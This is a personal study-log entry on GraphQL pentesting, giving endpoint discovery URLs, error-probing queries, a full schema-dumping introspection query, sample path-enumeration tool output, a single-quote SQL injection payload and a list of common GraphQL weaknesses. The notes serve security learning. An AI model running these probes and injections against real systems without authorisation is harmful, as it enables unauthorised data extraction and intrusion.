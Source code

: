 `4 January 2023`
## **Day 18 What I Have Learned**
***
## **GraphQL Part 1**:
- The GraphQL query language is strongly typed. Due to its strong type system, GraphQL gives you the ability to query and understand the underlying schema.
- GraphQL is a query language for your API, and a server-side runtime for executing queries using a type system you define for your data. GraphQL isn't tied to any specific database or storage engine and is instead backed by your existing code and data.
- [More](https://graphql.org/learn/).
***
## **Exploit**:
1. Identify An Injection Point
- Most of the time the graphql is located on the /graphql or /graphiql endpoint.
- example.com/graphql?query={__schema{types{name}}}
- example.com/graphiql?query={__schema{types{name}}}
2. Check If Errors Are Visible.
- ?query={__schema}.
- ?query={}
- ?query={thisdefinitelydoesnotexist}
3. Enumerate Database Schema via Introspection
- Single line query to dump the database schema without fragments.

```js
__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}
```
4. Or Use a tool
```js
git clone https://gitlab.com/dee-see/graphql-path-enum
$ graphql-path-enum -i ./test_data/h1_introspection.json -t Skill
Found 27 ways to reach the "Skill" node from the "Query" node:
- Query (assignable_teams) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (checklist_check) -> ChecklistCheck (checklist) -> Checklist (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (checklist_check_response) -> ChecklistCheckResponse (checklist_check) -> ChecklistCheck (checklist) -> Checklist (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (checklist_checks) -> ChecklistCheck (checklist) -> Checklist (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (clusters) -> Cluster (weaknesses) -> Weakness (critical_reports) -> TeamMemberGroupConnection (edges) -> TeamMemberGroupEdge (node) -> TeamMemberGroup (team_members) -> TeamMember (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (embedded_submission_form) -> EmbeddedSubmissionForm (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (external_program) -> ExternalProgram (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (external_programs) -> ExternalProgram (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (job_listing) -> JobListing (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (job_listings) -> JobListing (team) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (me) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (pentest) -> Pentest (lead_pentester) -> Pentester (user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (pentests) -> Pentest (lead_pentester) -> Pentester (user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (query) -> Query (assignable_teams) -> Team (audit_log_items) -> AuditLogItem (source_user) -> User (pentester_profile) -> PentesterProfile (skills) -> Skill
- Query (query) -> Query (skills) -> Skill
```
5. Extract data
- Example.com/graphql?query={TYPE_1{FIELD_1,FIELD_2}}
6. SQL injection
- Send a single quote ' inside a graphql parameter to trigger the SQL injection
``` js
{ 
    bacon(id: "1'") { 
        id, 
        type, 
        price
    }
}
```
7. [More](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md).

## **Attacks in GraphQL**:
1. Unauthenticated Access to GraphQL Endpoint 
- Supposed your target runs GraphQL, now as an unauthenticated user hit the following URL: 
https://your_target/graphiql
- If you are able to access the GraphQL Console, try running some schema extraction or other queries
- Alternatively you can also try to query https://your_target_url/graphql?query={query_here} 
- If you are able to extract information as an unauthenticated user, this is an issue.
2. Introspection Queries are Enabled
- A GraphQL server supports introspection over its schema using the same GraphQL query language.
- A server exposes the following introspection queries on the Query operation type.
__schema
__type
__typename
- Note that introspection queries start with __
3. GraphQL in Debug Mode
- GraphQL can be run in “debug” mode. The main feature of debug is to display detailed errors of request to aid with development. This is extremely problematic if you run your GraphQL implementation in production with debug enabled. Doing so will result in excessive errors, such as stack traces, and it exposes other sensitive information in the response, which jeopardizes not just security, but compliance adherence, too.  
4. Application Level DoS
- [Info Here](https://payatu.com/blog/manmeet/graphql-exploitation-part-4).
5. SQL Injection
- Send a single quote ' inside a graphql parameter to trigger the SQL injection.
6. IDOR
- [Info Here](https://infosecwriteups.com/graphql-idor-leads-to-information-disclosure-175eb560170d).
7. Data Exposure through Error Messages
- Instead of returning something like "Did you mean that query", it is preferable to return something along the lines of "That query doesn't exist" without providing alternatives.
- [Info Here](https://escape.tech/blog/graphql-verbose-error-suggestions/).
8. Misc. GraphQL Attacks
- [Info Here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/graphql).
***